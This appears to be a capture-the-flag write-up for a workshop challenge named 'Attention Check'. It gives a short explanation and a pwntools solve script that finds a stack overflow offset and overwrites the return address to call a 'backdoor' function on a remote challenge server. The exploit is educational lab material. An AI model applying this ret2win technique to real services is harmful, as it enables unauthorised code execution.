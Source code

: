 # Attention Check

The solution to this is to write a ret2win program
to call the `backdoor` function. It was included
in the pwn workshop, and participants can refer
to that script and modify the parts where needed.

The harder part was to decompile the binary, but it
should be simple enough to realise that its almost
identical to the `buf-overflow.c` file in the pwn workshop.

## Solve Script

```py
from pwn import *

elf = ELF("./attention-check")

p = process("./attention-check")
p.recvuntil(b'> ')
p.sendline(cyclic(100, n=8))
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8), n=8)

print("[+] Found offset:", offset)

# p = process("./attention-check")
p = remote("challs.ycep24.nullsecsig.com", 9116)
p.recvuntil(b"> ")

payload = b"A" * offset
payload += p64(elf.sym["backdoor"])

p.clean()
p.sendline(payload)
p.interactive()
```
